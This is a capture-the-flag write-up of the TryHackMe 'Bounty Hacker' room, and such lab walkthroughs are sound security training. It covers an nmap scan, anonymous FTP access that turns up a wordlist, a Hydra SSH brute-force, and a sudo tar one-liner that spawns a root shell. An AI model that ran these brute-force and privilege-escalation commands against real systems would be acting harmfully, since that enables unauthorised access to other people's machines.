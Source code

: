 ```yaml
---
title : Bounty Hacker - Writeup
---
```


_**Jan 02, 2021**_

[Bounty Hacker](https://tryhackme.com/room/cowboyhacker) Writeup

## Recon :

```
kali@kali:~$ nmap -sC -sV -Pn 10.10.100.236
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-03 13:19 EDT
Nmap scan report for 10.10.100.236
Host is up (0.60s latency).
Not shown: 967 filtered ports, 30 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.4.3.179
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
## FTP :

We noticed from the scan that `FTP` service is running, and `Anonymous login allowed` is enabled, So let's login and see what's inside :

```
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Jun 07 21:47 .
drwxr-xr-x    2 ftp      ftp          4096 Jun 07 21:47 ..
-rw-rw-r--    1 ftp      ftp           418 Jun 07 21:41 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07 21:47 task.txt
226 Directory send OK.
ftp>
```
` locks.txt` contains a wordlist that can help us to get user access.
`task.txt` contains some task, wirtten by a user called `lin`.

So enough said. We have a user & a wordlist, Let's `HYDRA`.

## SSH Brute Forcing :

```
kali@kali:~$ hydra -l lin -P locks.txt ssh://10.10.100.236
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-08-03 13:57:12
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.100.236:22/
[22][ssh] host: 10.10.100.236   login: lin   password: ******************
```

Nice. Now let's login with those creds!

## Privilege Escalation :

Enumerating manually we got something intresting, this user can run `/bin/tar` with root permission.

```
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```
I went straight to [GTFOBins](https://gtfobins.github.io/gtfobins/tar/) and grabbed this one liner :

```
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# id
uid=0(root) gid=0(root) groups=0(root)
```
And now we are `root`.

<br>
<br>
Best Regards

[bvr0n](https://github.com/bvr0n)
